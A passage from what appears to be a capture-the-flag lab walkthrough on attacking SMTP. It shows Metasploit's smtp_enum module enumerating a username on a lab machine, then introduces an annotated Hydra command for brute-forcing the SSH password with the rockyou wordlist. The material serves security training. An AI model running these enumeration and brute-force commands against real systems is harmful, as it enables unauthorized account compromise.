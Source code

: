 Once we've set this option, what is the other essential paramater we need to set?
- **RHOSTS**.

Now, set the THREADS parameter to 16 and run the exploit, this may take a few minutes, so grab a cup of tea, coffee, water. Keep yourself hydrated!
```bash
msf6 auxiliary(scanner/smtp/smtp_enum) > set RHOSTS 10.10.50.74
RHOSTS => 10.10.50.74
msf6 auxiliary(scanner/smtp/smtp_enum) > set THREADS 16
THREADS => 16
msf6 auxiliary(scanner/smtp/smtp_enum) > set USER_FILE /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
USER_FILE => /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
msf6 auxiliary(scanner/smtp/smtp_enum) > exploit

[*] 10.10.50.74:25        - 10.10.50.74:25 Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)
[+] 10.10.50.74:25        - 10.10.50.74:25 Users found: administrator
[*] 10.10.50.74:25        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Okay! Now that's finished, what username is returned?
- **administrator**.



## Exploiting SMTP
---
---
---
#### Recap
Okay, at the end of our Enumeration section we have a few vital pieces of information:
1. A user account name
1. The type of SMTP server and Operating System running.

We know from our port scan, that the only other open port on this machine is an SSH login. We're going to use this information to try and **bruteforce** the password of the SSH login for our user using Hydra.

#### Hydra - for Bruteforcing
here is a wide array of customisability when it comes to using Hydra, and it allows for adaptive password attacks against of many different services, including SSH. 

The syntax for the command we're going to use to find the passwords is this:
```bash
$ hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.50.74 ssh

# hydra	            Runs the hydra tool
#-t 16              Number of parallel connections per target
# -l                [user]	Points to the user who's account you're trying to compromise
# -P                [path to dictionary]	Points to the file containing the list of possible passwords
# -vV               Sets verbose mode to very verbose, shows the login+pass combination for each attempt
# [machine IP]	    The IP address of the target machine
# ssh / protocol    Sets the protocol
```
